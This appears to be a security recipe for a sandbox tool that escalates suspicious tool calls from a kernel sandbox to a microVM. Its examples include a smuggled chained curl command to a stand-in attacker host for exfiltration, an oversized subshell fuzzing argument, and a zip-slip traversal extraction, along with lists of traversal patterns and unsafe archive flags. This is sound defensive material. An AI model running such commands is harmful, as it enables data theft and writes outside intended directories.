

# Recipe: Dynamic Tier Escalation for Ambiguous Tool Calls & Fuzzing

> **Use Case ID:** `FAB-UC-06`  
> **Target Audience:** Developers, Autonomous Agent Framework Authors, Security Engineers  
> **Isolation Mechanism:** Automatic Tier 1 (Kernel Sandbox) to Tier 2 (Aegisbox MicroVM) Escalation  

---

## 1. Problem Statement

Autonomous pentesting frameworks (e.g., ARTEX, PentAGI) and adversarial prompt injection payloads often exploit tool-call boundaries by smuggling complex subshells, chained execution commands, or massive differential fuzzing payloads into seemingly benign tool parameters (such as `git log --grep "$(curl ...)"` or `markdownlint <5000 byte buffer>`).

If an agent or command router relies strictly on static binary matching (`git` -> Tier 1), attackers can bypass kernel isolation through subshell execution or memory fuzzing.

---

## 2. When to Use This

Use **Dynamic Tier Escalation** to ensure that whenever an otherwise benign Tier 1 command exhibits ambiguous syntax, command chaining, differential fuzzing signatures, or inline script execution, Fabrial automatically escalates execution to **Tier 2 (Aegisbox MicroVM)** without manual policy reconfiguration.

---

## 3. Architecture & Dataflow



---

## 4. Step-by-Step Recipe

### Step 1: Normal Execution in Tier 1
Standard benign commands execute in Tier 1 with sub-15ms speed:

```bash
fabrial run -- git status
```

**Output:**
```text
[fabrial] Routed to Tier 1 (Airlock Kernel Sandbox): Tier 1 policy matched tool "git"
On branch main
nothing to commit, working tree clean
```

### Step 2: Automatic Escalation on Subshell Smuggling
Passing command chaining or subshells causes automatic escalation to Tier 2 microVM:

```bash
fabrial run -- git log -n 1 "; curl http://attacker.com/exfil"
```

**Output:**
```text
[fabrial] ⚠️ Dynamic Tier Escalation: embedded subshell or command chaining detected in command arguments
[fabrial] Routed to Tier 2 (Aegisbox MicroVM) for hardware isolation
```

### Step 3: Automatic Escalation on Differential Fuzzing Payloads
High-volume fuzzing inputs (>4096 bytes) automatically escalate to prevent host buffer exhaustion:

```bash
fabrial run -- git log --grep "$(python3 -c 'print("A" * 5000)')"
```

**Output:**
```text
[fabrial] ⚠️ Dynamic Tier Escalation: argument vector size (5024 bytes) exceeds Tier 1 fast-path threshold (>4096)
[fabrial] Routed to Tier 2 (Aegisbox MicroVM) for hardware isolation
```

### Step 4: Automatic Escalation on Archive Zip-Slip Hazards (`GHSA-qh76-45cr-8xrc`)
Archive extraction commands (`7z`, `7zz`, `tar`, `unzip`, `bsdtar`, `cpio`) carrying traversal segments (`../`, `..\`, `%2e%2e`), absolute extraction destinations (`-o/etc`, `-C /tmp`), or unsafe path/symlink flags (`-P`, `--absolute-names`, `--keep-directory-symlink`) automatically escalate to Tier 2 hardware isolation (while Airlock enforces workspace path confinement in Tier 1):

```bash
fabrial run -- 7zz x payload.7z -o../../outside
```

**Output:**
```text
[fabrial] ⚠️ Dynamic Tier Escalation: archive path traversal segment detected in 7zz argument "-o../../outside" (Zip-Slip defense)
[fabrial] Routed to Tier 2 (Aegisbox MicroVM) for hardware isolation
```

---

## 5. Invariants & Guarantees

1. **Airgap Invariant:** When `--airgap` is explicitly requested, dynamic escalation to Tier 2 is inhibited to guarantee kernel-enforced 100% offline network airgap (Tier 2 microVM does not support verified offline airgap).
2. **Zero False Positives:** Standard flags and benign arguments on Tier 1 tools (`gofmt`, `git`, `eslint`) execute with zero latency penalty.
3. **Fail-Closed Hardware Confinement:** Ambiguous or anomalous arguments execute inside ephemeral microVMs with fixed vCPU and memory bounds, ensuring host protection against sandbox escapes.
